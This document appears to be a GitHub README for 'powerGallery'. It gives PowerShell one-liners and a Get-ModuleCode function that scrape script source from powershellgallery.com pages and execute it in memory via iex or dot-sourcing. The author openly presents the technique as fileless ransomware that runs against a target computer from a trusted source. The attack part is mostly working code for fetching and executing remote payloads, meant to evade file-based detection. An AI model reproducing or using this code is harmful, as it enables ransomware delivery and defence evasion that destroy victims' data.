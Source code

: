 # powerGallery

This one liner will load the neccessary files to encrypt a system straight from the trusted powershellgallery.com website.
Used in conjunction with a simple for loop its is now fileless ransomware hosted and executed from your platform

```powershell
([regex]::Matches((irm "https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<[^>]*>'-replace'^\s*',''-replace '[^\x20-\x7E]'|iex
```

Next its as simple as running the commands stored in that module agaisnt the system
In this instance we can encrypt a string, but why stop there? 

```powershell
$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

Combining them into a simple one liner. Together with yet another simple functionality the `for loop` you should be able to see the danger
We could run fileless ransomware on a target computer all from a trusted source

```powershell
([regex]::Matches((irm "https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<[^>]*>'-replace'^\s*',''-replace '[^\x20-\x7E]'|iex;$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

# Get Current Version

```powershell
# Define the regex pattern to extract content from <h2> within the specified <article> class
$pattern = '<article class="col-sm-12 col-md-8 package-details-main special-margin-left">.*?<h2>(.*?)</h2>'

# Perform the regex match
$match = [regex]::Match($html, $pattern, [System.Text.RegularExpressions.RegexOptions]::Singleline)

# Extract the value
if ($match.Success) {
    $h2Content = $match.Groups[1].Value.Trim()
    # Output the content of the <h2> tag
    $h2Content
} else {
    "No <h2> tag found within the specified <article> class."
}
```


You can use this function to grab the links of all the .ps1 files in a module from the powershell gallery website

```powershell
$module = 'PsAES'
$mod = "https://www.powershellgallery.com/packages/$module"
$content = Invoke-RestMethod -Uri $mod
$regex = '<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'
$matches = [regex]::Matches($content, $regex)
$baseURL = "https://www.powershellgallery.com"
foreach ($match in $matches) {
$relativeLink = $match.Groups[1].Value
$fullLink = $baseURL + $relativeLink
([regex]::Matches((irm "$fullLink"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)', 's').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex}
```

```powershell
function Get-ModuleCode {
    param (
        [Parameter(Mandatory)]
        [string]$module
    )

    $mod = "https://www.powershellgallery.com/packages/$module"
    $content = Invoke-RestMethod -Uri $mod
    $regex = '<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'
    $matches = [regex]::Matches($content, $regex)
    $baseURL = "https://www.powershellgallery.com"

    foreach ($match in $matches) {
        $relativeLink = $match.Groups[1].Value
        $fullLink = $baseURL + $relativeLink
        
        # Download and strip HTML
        $decodedCode = ([regex]::Matches((irm "$fullLink"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value |
                        ForEach-Object { [System.Net.WebUtility]::HtmlDecode($_) }) `
                        -replace '<(?!#)[^>]+>|(?<!<#)>(?![^#])',''
        
        # Turn the string into a ScriptBlock
        $scriptBlock = [ScriptBlock]::Create($decodedCode)
        
        # Dot-source it into the global scope
        . $scriptBlock
    }
}
```

Syntax: 
[You must dot source the function call to get access to the code in the global scope]

```powershell
. Get-ModuleCode -module 'PsAES'
```











